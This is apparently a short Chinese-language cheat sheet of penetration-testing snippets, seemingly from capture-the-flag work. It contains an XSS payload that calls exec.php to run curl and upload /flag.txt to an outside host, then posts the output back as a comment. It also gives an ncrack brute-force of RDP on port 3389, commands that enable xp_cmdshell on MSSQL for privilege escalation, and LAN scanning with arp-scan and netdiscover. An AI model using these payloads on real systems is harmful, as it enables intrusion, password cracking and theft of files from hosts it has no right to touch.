 

扫同网段端口，可以直接看 arp 缓存

```shell
arp -an
arp-scan -l ?
```



curl 带文件

```html
comment=<iframe srcdoc="<script>fetch('exec.php',{method:'POST',headers:{'content-type':'application/x-www-form-urlencoded'},body:'command='+encodeURIComponent('curl xss.zsxsoft.com:23457 -F"a=@/flag.txt"')+'&exec=1'}).then(p=>p.text()).then(p=>fetch('main.php',{method:'POST',headers:{'content-type':'application/x-www-form-urlencoded'},body:'comment='+p}))</script>
"></iframe>
```



ncrack爆破3389

```shell
ncrack -vv -u administrator -P '/tmp/D5B0U/1000-top.txt' 10.22.2.3:3389,CL=1 -f
```



`netdiscover` 直接扫描局域网内所有网段



**mssql提权**

sa用户如何开启xp_cmdshell

```shell
EXEC sp_configure 'show advanced options',1;//允许修改高级参数
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;  //打开xp_cmdshell扩展
RECONFIGURE;
```



Windows下利用dos如何搜索文件

```shell
for /r c:\ %i in (Newslist*.aspx) do @echo %i
for /r c:\ %i in (Newslist.aspx*) do @echo %i
```



dos命令下写文件遇到`<>`如何处理

```shell
echo ^<^> > 123.txt
```



```shell
# 查看本机开放端口
netstat -tln
```
